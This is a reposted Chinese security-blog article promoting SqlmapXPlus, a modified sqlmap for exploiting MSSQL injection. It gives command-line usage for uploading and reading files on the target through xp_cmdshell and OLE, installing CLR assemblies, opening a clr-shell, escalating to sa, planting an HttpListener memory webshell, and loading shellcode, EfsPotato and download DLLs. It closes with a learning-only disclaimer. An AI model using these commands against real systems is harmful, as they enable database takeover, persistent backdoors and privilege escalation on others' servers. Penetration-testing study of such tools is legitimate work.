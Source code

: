 #  sqlmap Xplus 基于 sqlmap，对经典的数据库注入漏洞利用工具进行二开！更新V1.6   
 黑白之道   2025-02-05 01:22  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
## 工具介绍  
  
sqlmapxplus在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。  
  
sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。  
1. **20250121更新说明**：更新工具的交互方式、
更新CLR注入利用方式  
  
1. 针对实际网络过程中dll传输损失导致clr安装失败的问题  
  
更新CLR落地加载功能（需要落地dll）和一键数据库CLR加载功能（无需落地dll）可根据场景选择合适的利用方法、  
  
临时增加 --check-file 选项判断dll文件是否成功落地目标主机、  
  
临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功、  
  
需要注意的是 --check-file 和 --check-clr 选项存在判断不准确的问题，仅供参考  
  
实践过程中可能受url编码等影响，会导致注入利用失败  
  
1. 为什么使用上传过程中会出现dll放大的问题
转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍，ole文件上传极限为20kb  
  
1. 自定义clr的问题（已完成）
install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名
clr_shell模式下执行clr函数的方式修改为：用户自定义function 传入参数（已完成）  
  
## 功能介绍  
```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del     delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr1      install clr1
--install-clr2      install clr2
--clr-shell         clr shell 
--to-sa             current db to sa
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icZ1W9s2Jp2VBLfNEjPGNuq9kvZo1lJDaNlKyPJnkw0C3dl7wIrlLyibY9qicnbZGrGYA7otCdzuMgkoDFlibmWAAA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 工具使用  
  
**文件操作功能**:  
```
# 开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 通过 ole 实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 

# 通过 xp_cmdshell实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 

```  
  
**CLR相关的功能**  
```
# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader
# 对应项目目录下单独功能的dll，分别为
clrexec.dll
clrefspotato.dll
clrdownload.dll
clrshellcodeloader.dl

```  
  
  
  
## 工具获取  
  
  
  
https://github.com/co01cat/SqlmapXPlus  
  
> **文章来源：夜组安全**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
